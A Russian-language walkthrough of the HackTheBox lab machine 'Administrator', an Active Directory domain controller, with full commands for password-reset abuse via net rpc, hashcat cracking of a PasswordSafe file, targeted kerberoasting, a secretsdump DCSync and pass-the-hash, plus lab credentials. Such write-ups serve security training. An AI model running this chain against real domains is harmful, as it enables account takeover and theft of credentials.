









:simple-hackthebox: [Комната на HackTheBox](https://app.hackthebox.com/machines/Administrator)

!!! danger "ОБРАТИТЕ ВНИМАНИЕ!"
    В ходе написания райтапа и прикрепления вывода терминала/скриншотов с результатами работы различных тулов я не скрываю полученные хэши/пароли/флаги (иные подсказки) для того, чтобы люди, столкнувшиеся с определенными трудностями на каком-либо этапе, могли использовать мой райтап в качестве подсказки. Для тех, кто столкнулся с определенными сложностями в процессе компрометации данной машины, но не хочет получать готовые ответы, я использую спойлеры, под которыми находится вся секретная информация.

## Резюме

**Administrator** - это машина на **HackTheBox** сложности уровня **Medium**. На данной машине представлена ОС Windows с доменом Active Directory. В качестве первоначального доступа автор предоставил нам учетные данные одного из пользователей домена `olivia`. В ходе перечисления домена с помощью `BloodHound` были обнаружены небезопасные права по отношению к другим учетным записям, приведшие к их компрометации: `olivia` --> (GenericAll) --> `michael` --> (ForceChangePassword) --> `benjamin`. Воспользовавшись возможностью сбросить пароль в обоих случаях удалось скомпрометировать учетные записи `michael` и `benjamin`. С помощью учетной записи `benjamin` удалось аутентифицироваться на FTP-сервере, который находился на **открытом 21 порту**. На FTP-сервере была обнаружена база паролей `Backup.psafe3` одного из менеджера паролей `PasswordSafe`. Эта база была запаролена, но при помощи `hashcat` удалось взломать пароль и получить доступ к хранящимся в ней учетным данным. Среди учетных данных самыми перспективными оказались учетные данные пользователя `emily`, через которого выстроилась цепочка: `eimly` --> (GenericWrite) --> `ethan` --> (DCSync) --> DC. Пароль юзера `emily` был изъят из менеджера паролей, с помощью него удалось установить сессию при помощи `evil-winrm` и забрать первый флаг (`user.txt`). Воспользовавшись разрешением `GenericWrite` в отношении юзера `ethan` была проведена атака вида `targeted kerberoasting` при помощи тула `targetedKerberoast.py`. Полученный хэш tgs-билета был успешно взломан при помощи `hashcat`. С помощью пароля удалось выполнить дамп хэшей на контроллере домена с использованием тула `secretsdump.py`. Полученный хэш администратора использовался для установления сессии на хосте посредством `Pass-the-Hash`, что в итоге привело к взятию второго флага (`root.txt`).

## Цепочка атаки

>Port Scanning (nmap) ➔ AD Enumeration (BloodHound) ➔ Account Manipulation (net rpc ➔ michael) 
>➔ Account Manipulation (net rpc ➔ benjamin) ➔ Data Exfiltration (FTP) ➔ Offline Cracking (Hashcat ➔ Backup.psafe3) 
>➔ Credential Extraction ➔ Targeted Kerberoasting (GenericWrite ➔ ethan) ➔ TGS Cracking (Hashcat) 
>➔ DCSync Attack (secretsdump) ➔ Pass-the-Hash (evil-winrm) ➔ Domain Admin

## MITRE ATT&CK Mapping

| Phase                       | Tactic               | Technique                                             | ID        |
|-----------------------------|----------------------|-------------------------------------------------------|-----------|
| Network Enumeration         | Discovery            | Network Service Discovery                             | T1046     |
| AD Enumeration              | Discovery            | Account Discovery:  Domain Account                    | T1087.002 |
| ACL Exploitation            | Privilege Escalation | Account Manipulation                                  | T1098     |
| Data Collection             | Collection           | Data from Local System                                | T1005     |
| Offline Cracking (psafe3)   | Credential Access    | Brute Force:  Password Cracking                       | T1110.002 |
| Credential Extraction       | Credential Access    | Unsecured Credentials:  Credentials In Files          | T1552.001 |
| Targeted Kerberoasting      | Credential Access    | Steal or Forge Kerberos Tickets:  Kerberoasting       | T1558.003 |
| Offline Cracking (TGS)      | Credential Access    | Brute Force:  Password Cracking                       | T1110.002 |
| Credential Dumping          | Credential Access    | OS Credential Dumping:  DCSync                        | T1003.006 |
| Domain Privilege Escalation | Lateral Movement     | Use Alternate Authentication Material:  Pass the Hash | T1550.002 |

## Разведка — `T1046`, `T1087.002`

??? note "Результат работы nmap"
    ```console
    $ nmap -sV -sC -p- 10.129.58.233
    Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-17 00:01 -0400
    Nmap scan report for 10.129.58.233
    Host is up (0.096s latency).
    Not shown: 65509 closed tcp ports (reset)
    PORT      STATE SERVICE       VERSION
    21/tcp    open  ftp           Microsoft ftpd
    | ftp-syst: 
    |_  SYST: Windows_NT
    53/tcp    open  domain        Simple DNS Plus
    88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-09-17 11:08:58Z)
    135/tcp   open  msrpc         Microsoft Windows RPC
    139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb, Site: Default-First-Site-Name)
    445/tcp   open  microsoft-ds?
    464/tcp   open  kpasswd5?
    593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp   open  tcpwrapped
    3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb, Site: Default-First-Site-Name)
    3269/tcp  open  tcpwrapped
    5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    9389/tcp  open  mc-nmf        .NET Message Framing
    47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-title: Not Found
    |_http-server-header: Microsoft-HTTPAPI/2.0
    49664/tcp open  msrpc         Microsoft Windows RPC
    49665/tcp open  msrpc         Microsoft Windows RPC
    49666/tcp open  msrpc         Microsoft Windows RPC
    49667/tcp open  msrpc         Microsoft Windows RPC
    49668/tcp open  msrpc         Microsoft Windows RPC
    51647/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    51658/tcp open  msrpc         Microsoft Windows RPC
    51663/tcp open  msrpc         Microsoft Windows RPC
    51677/tcp open  msrpc         Microsoft Windows RPC
    51710/tcp open  msrpc         Microsoft Windows RPC
    56562/tcp open  msrpc         Microsoft Windows RPC
    Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    | smb2-security-mode: 
    |   3.1.1: 
    |_    Message signing enabled and required
    |_clock-skew: 7h00m02s
    | smb2-time: 
    |   date: 2026-09-17T11:09:54
    |_  start_date: N/A

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 528.15 seconds
    ```

После сканирования портов становится понятно, что представленный хост является контроллером домена Active Directory. Самыми примечательными на данный момент для нас являются порты `21 (ftp)` и `445 (smb)`. У нас есть со старта учетные данныые одного из пользователей домена: `Olivia:ichliebedich`.

Перед подключением к SMB было принято решение проверить возможность аутентификации в `ftp` с имеющимися учетными данными. Однако, эта попытка не увенчалась успехом. У данного пользователя нет доступа к `ftp`.

```console
$ ftp 10.129.58.233
Connected to 10.129.58.233.
220 Microsoft FTP Service
Name (10.129.58.233:kali): Olivia
331 Password required
Password: 
530 User cannot log in, home directory inaccessible.
ftp: Login failed
```

Для дальнейшего перечисления было решено воспользоваться тулом `NetExec`. В ходе перечисления были найдены доступные для просмотра шары, а также выполнено перечисление пользователей домена. Кроме того, использование `--generate-hosts-file` сгенерировало готовую строку для `/etc/hosts`.

=== "Shares"
    ```console
    $ nxc smb 10.129.58.233 -u 'olivia' -p 'ichliebedich' --shares
    SMB         10.129.58.233   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) 
    (signing:True) (SMBv1:None) (Null Auth:True)
    SMB         10.129.58.233   445    DC               [+] administrator.htb\olivia:ichliebedich 
    SMB         10.129.58.233   445    DC               [*] Enumerated shares
    SMB         10.129.58.233   445    DC               Share           Permissions     Remark
    SMB         10.129.58.233   445    DC               -----           -----------     ------
    SMB         10.129.58.233   445    DC               ADMIN$                          Remote Admin
    SMB         10.129.58.233   445    DC               C$                              Default share
    SMB         10.129.58.233   445    DC               IPC$            READ            Remote IPC
    SMB         10.129.58.233   445    DC               NETLOGON        READ            Logon server share 
    SMB         10.129.58.233   445    DC               SYSVOL          READ            Logon server share 
    ```

=== "Users"
    ```console
    $ nxc smb 10.129.58.233 -u 'olivia' -p 'ichliebedich' --users
    SMB         10.129.58.233   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) 
    (domain:administrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
    SMB         10.129.58.233   445    DC               [+] administrator.htb\olivia:ichliebedich 
    SMB         10.129.58.233   445    DC               -Username-                    -Last PW Set-       -BadPW- -Description-                                               
    SMB         10.129.58.233   445    DC               Administrator                 2024-10-22 18:59:36 0       Built-in account for administering the computer/domain 
    SMB         10.129.58.233   445    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain 
    SMB         10.129.58.233   445    DC               krbtgt                        2024-10-04 19:53:28 0       Key Distribution Center Service Account 
    SMB         10.129.58.233   445    DC               olivia                        2024-10-06 01:22:48 0        
    SMB         10.129.58.233   445    DC               michael                       2024-10-06 01:33:37 0        
    SMB         10.129.58.233   445    DC               benjamin                      2024-10-06 01:34:56 0        
    SMB         10.129.58.233   445    DC               emily                         2024-10-30 23:40:02 0        
    SMB         10.129.58.233   445    DC               ethan                         2024-10-12 20:52:14 0        
    SMB         10.129.58.233   445    DC               alexander                     2024-10-31 00:18:04 0        
    SMB         10.129.58.233   445    DC               emma                          2024-10-31 00:18:35 0        
    SMB         10.129.58.233   445    DC               [*] Enumerated 10 local users: ADMINISTRATOR
    ```

=== "/etc/hosts"
    ```console
    $ nxc smb 10.129.58.233 -u 'olivia' -p 'ichliebedich' --generate-hosts-file adm_hosts
    ```

Полученную строку для `/etc/hosts` вы можете посмотреть под спойлером.

??? note "Результат работы nxc"
    
    ///screenshot
    Результат работы nxc
    ///

Как видно из вывода `nxc`, в домене есть ещё 6 пользователей, не считая `olivia` и встроенные учетные записи. Среди существующих шар мне не удалось найти что-то поистине полезное, поэтому было решено выполнить сбор данных для `BloodHound`. Это можно сделать как с помощью опции `nxc --bloodhound`, так и с помощью отдельного тула `bloodhound-python`.

=== "NetExec"
    ```console
    $ nxc ldap DC.administrator.htb -u 'olivia' -p 'ichliebedich' --bloodhound -c All --dns-server 10.129.58.233
    LDAP        10.129.58.233   389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb) (signing:None) 
    (channel binding:No TLS cert) 
    LDAP        10.129.58.233   389    DC               [+] administrator.htb\olivia:ichliebedich 
    LDAP        10.129.58.233   389    DC               Resolved collection methods: acl, adcs, container, dcom, group, 
    localadmin, loggedon, objectprops, psremote, rdp, session, trusts
    LDAP        10.129.58.233   389    DC               Excluded collection methods: 
    LDAP        10.129.58.233   389    DC               Bloodhound data collection completed in 0M 3S
    LDAP        10.129.58.233   389    DC               Collecting ADCS data (CertiHound)...
    LDAP        10.129.58.233   389    DC               Found 0 certificate templates
    LDAP        10.129.58.233   389    DC               Found 0 Enterprise CAs
    LDAP        10.129.58.233   389    DC               Compressing output into /home/imbadika44/.nxc/logs/DC_10.129.58.233_2026-09-17_004053_bloodhound.zip
    ```

=== "bloodhound-python"
    ```console
    $ bloodhound-python -u 'olivia' -p 'ichliebedich' -d 'administrator.htb' -ns 10.129.58.233 -c All --zip
    ```

## Компрометация новых учетных записей и первый флаг — `T1098`, `T1005`, `T1110.002`, `T1552.001`

После использования одного из тулов (`NetExec` или `bloodhound-python`) получаем архив, который загружаем, непосредственно, в сам `BloodHound` для дальнейшего перечисления домена.

??? note "GenericAll (olivia --> michael)"
    
    ///screenshot
    GenericAll (olivia --> michael)
    ///

!!! info "Обращаю Ваше внимание!"
    Пользователь `BDK44@administrator.htb` не существует в исследуемом домене. Эта точка на графе была добавлена мной намеренно для подтверждения того, что все описываемые в данном райтапе действия выполняются лично мной. Эти скриншоты были сделаны во время непосредственной компрометации домена.

На скриншоте видно, что контролируемый нами юзер `olivia` имеет разрешение `GenericAll` в отношении юзера `michael`. В Active Directory разрешения и привилегии определяют, какие действия субъект (пользователь, группа или компьютер) может выполнять с другим объектом. Самым для нас примечательным является то, что мы, используя данное разрешение, можем сбросить пароль юзера `michael` и установить свой для того, чтобы затем аутентифицироваться от его имени. Более подробно разные методы эксплуатации данного разрешения описаны в хорошей статье за авторством [:notepad_spiral: Aarti Singh](https://www.hackingarticles.in/genericall-active-directory-abuse/).

Воспользуемся найденным разрешением и изменим пароль `michael` на известный нам с помощью тула `net`. После проведенной манипуляции сразу проверим доступность юзера с новым паролем с помощью `NetExec`.

=== "net"
    ```console
    $ net rpc password michael 'Password123!' -U administrator.htb/olivia%ichliebedich -S 10.129.58.233
    ```

=== "NetExec"
    ```console
    $ nxc smb 10.129.58.233 -u 'michael' -p 'Password123!'
    SMB         10.129.58.233   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) 
    (domain:administrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
    SMB         10.129.58.233   445    DC               [+] administrator.htb\michael:Password123!
    ```

Как видно в выводе `NetExec`, у юзера `michael` действительно пароль теперь `Password123!` (тот, который мы установили собственноручно). Теперь, когда мы скомпрометировали очередную учетную запись, мы можем, используя данные в `BloodHound`, исследовать её возможности.

??? note "ForceChangePassword (michael --> benjamin)"
    
    ///screenshot
    ForceChangePassword (michael --> benjamin)
    ///

На скриншоте № 2 видно, что ныне контролируемый нами юзер `michael` имеет разрешение `ForceChangePassword` в отношении юзера `benjamin`. Можно сказать, что перемещение от юзера `michael` к юзеру `benjamin` не будет ничем отличаться от перемещения от юзера `olivia` к юзеру `michael`, потому что мы точно также выполним сброс пароля с помощью того же тула (`net`). Обнаруженное разрешение `ForceChangePassword` позволяет нам это сделать. После ввода нового пароля сразу же проверим доступность скомпрометированного юзера `benjamin` с помощью `NetExec`.

=== "net"
    ```console
    $ net rpc password benjamin 'Password123!' -U administrator.htb/michael%'Password123!' -S 10.129.58.233
    ```

=== "NetExec"
    ```console
    $ nxc smb 10.129.58.233 -u 'benjamin' -p 'Password123!'
    SMB         10.129.58.233   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) 
    (signing:True) (SMBv1:None) (Null Auth:True)
    SMB         10.129.58.233   445    DC               [+] administrator.htb\benjamin:Password123!
    ```

Опять же, в выводе `NetExec` мы можем заметить, что у нас теперь есть доступ к юзеру `benjamin`. Я просмотрел информацию об этом юзере в `BloodHound` и не нашёл больше ничего примечательного. После недолгих размышлений я вспомнил, что у нас есть открытый `21 (ftp)` порт, к которому до этого у нас не было никакого доступа. Я решил попробовать аутентифицироваться с помощью юзера `benjamin`, и у меня получилось.

=== "FTP Authentication"
    ```console
    $ ftp 10.129.58.233
    Connected to 10.129.58.233.
    220 Microsoft FTP Service
    Name (10.129.58.233:root): benjamin
    331 Password required
    Password: 
    230 User logged in.
    Remote system type is Windows_NT.
    ftp> 
    ```

=== "FTP Files"
    ```console
    ftp> ls
    229 Entering Extended Passive Mode (|||57921|)
    125 Data connection already open; Transfer starting.
    10-05-24  09:13AM                  952 Backup.psafe3
    226 Transfer complete.
    ftp> bin
    200 Type set to I.
    ftp> get Backup.psafe3
    local: Backup.psafe3 remote: Backup.psafe3
    229 Entering Extended Passive Mode (|||57926|)
    125 Data connection already open; Transfer starting.
    100% |************************************************************|   952       59.66 KiB/s    00:00 ETA
    226 Transfer complete.
    952 bytes received in 00:00 (59.38 KiB/s)
    ```

После аутентификации я обнаружил файл `Backup.psafe3`. Я забрал его на свой хост. Это файл, хранящий в себе учетные данные, которые можно просмотреть в приложении `PasswordSafe`. Но для начала придется подобрать пароль. У `hashcat` есть мод `5200`, который предназначен как раз для взлома хэшей, используемых в `PasswordSafe`, нам достаточно просто передать ему на вход этот файл и наш словарь (я использовал `rockyou.txt`).

=== "hashcat"
    ```console
    $ hashcat -a0 -m5200 Backup.psafe3 rockyou.txt
    ```

Результат работы `hashcat` вы можете увидеть на скриншоте ниже под спойлером.

??? note "Результат работы `hashcat`"
    
    ///screenshot
    Результаты работы `hashcat`
    ///

После взлома хэша мы открываем данный файл в `PasswordSafe`, вводим полученный пароль и получаем учетные данные 3 пользователей домена, юзернеймы которых мы видели ранее при перечислении домена с помощью `NetExec`.

??? note "Учетные данные"
    
    ///screenshot
    Учетные данные в PasswordSafe
    ///

Самым интересным с точки зрения дальнейшего продвижения оказался юзер `emily` по двум причинам. Первой из них является то, что этот юзер имеет разрешение `GenericWrite` в отношении юзера `ethan`, что видно в `BloodHound`.

??? note "GenericWrite (emily --> ethan)"
    
    ///screenshot
    GenericWrite (emily --> ethan)
    ///

А второй весомой причиной является то, что юзер `ethan` обладает разрешением `DCSync` в отношении контроллера домена! А это значит, что получив доступ к нему, мы можем сдампить все хэши и добраться до учетной записи администратора.

??? note "DCSync (ethan)"
    
    ///screenshot
    DCSync (ethan)
    ///

Для начала заберем пароль юзера `emily` из `PasswordSafe`.

??? note "Пароль `emily`"
    
    ///screenshot
    Пароль `emily`
    ///

Далее воспользуемся тулом `evil-winrm` для того, чтобы получить сессию от лица `emily` и забрать первый флаг (`user.txt`).

??? note "Flag 1 (user.txt)"
    
    ///screenshot
    Flag 1 (user.txt)
    ///

## Компрометация домена и второй флаг — `T1558.003`, `T1110.002`, `T1003.006`, `T1550.002`

Теперь вспоминаем о наличии разрешения `GenericWrite` в отношении юзера `ethan`. В отличие от `GenericAll`, разрешение `GenericWrite` не позволяет нам напрямую сбросить пароль юзеру и установить свой. Поэтому, чтобы узнать пароль юзера `ethan`, нам необходимо будет выполнить атаку типа `targeted kerberoasting`. Для этого идеально подходит тул `targetedKerberoast`. Суть атаки заключается в том, что мы записываем SPN учетной записи, в отношении которой у нас есть разрешение, затем с помощью атаки `kerberoasting` запрашиваем tgs-билет и получаем хэш, который затем взламываем с помощью `hashcat` (или `john`). Тул `targetedKerberoast` проводит ювелирную работу: на вход ему передается контролируемая нами учетная запись (`emily`) с разрешением в отношении другой учетной записи (`ethan`); в ходе своей работы он записывает SPN всем учетным записям (`ethan`), в отношении которых есть разрешение у контролируемой нами учетной записи (`emily`), запрашивает tgs-билет, сбрасывает нам его хэш и затем удаляет ранее созданную SPN запись.

??? note "Синтаксис `targetedKerberoast.py` (ПАРОЛЬ)"
    === "targetedKerberoast.py"
        ```console
        git clone https://github.com/ShutdownRepo/targetedKerberoast
        $ ./targetedKerberoast.py -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -v
        ```

В результате работы `targetedKerberoast` мы получаем хэш tgs-билета.

??? note "Результат работы `targetedKerberoast`"
    
    ///screenshot
    Результат работы `targetedKerberoast`
    ///

Данный хэш сохраним в файл с произвольным именем и затем передадим `hashcat` для взлома, используя `-m13100`.

=== "hashcat"
    ```console
    $ hashcat -a0 -m13100 tgs.hash rockyou.txt
    ```

Хэш был успешно взломан и в итоге мы получили пароль юзера `ethan`.

??? note "Результат работы `hashcat`"
    
    ///screenshot
    Результат работы `hashcat`
    ///

Дальнейший наш путь лежит к учетной записи `Administrator` на контроллере домена. Учитывая, что у юзера `ethan` есть разрешение `DCSync`, мы можем просто сдампить все хэши с помощью `secretsdump`. 

??? note "Синтаксис `secretsdump.py` (ПАРОЛЬ)"
    === "secretsdump.py"
        ```console
        $ secretsdump.py administrator.htb/ethan:limpbizkit@DC.administrator.htb
        ```

В результате работы `secretsdump` мы получаем все имеющиеся хэши, в том числе хэш администратора, который мы будем использовать в ходе `Pass-the-Hash`, чтобы получить сессию от его лица и забрать второй флаг.

??? note "Дамп хэшей"
    
    ///screenshot
    Дамп хэшей
    ///

Для получения сессии мы воспользуемся тулом `evil-winrm` с флагом `-H` для того, чтобы выполнить `Pass-the-Hash` (предоставить для аутентификации NTLM хэш вместо пароля в открытом виде).

??? note "Flag 2 (root.txt)"
    
    ///screenshot
    Flag 2 (root.txt)
    ///

## Извлеченные уроки

1. **Аудит прав делегирования (ACL)**. В ходе исследования домена были обнаружены разрешения у рядовых пользователей, которые позволяли управлять чужими паролями и атрибутами (`GenericAll`, `GenericWrite`, `ForceChangePassword`). Именно эти разрешения сделали возможной всю цепочку от `olivia` до `ethan`. Не будь этих разрешений у рядовых пользователей, а только у специально выделенных учетных записей, продвижение по домену было бы очень затруднительным.
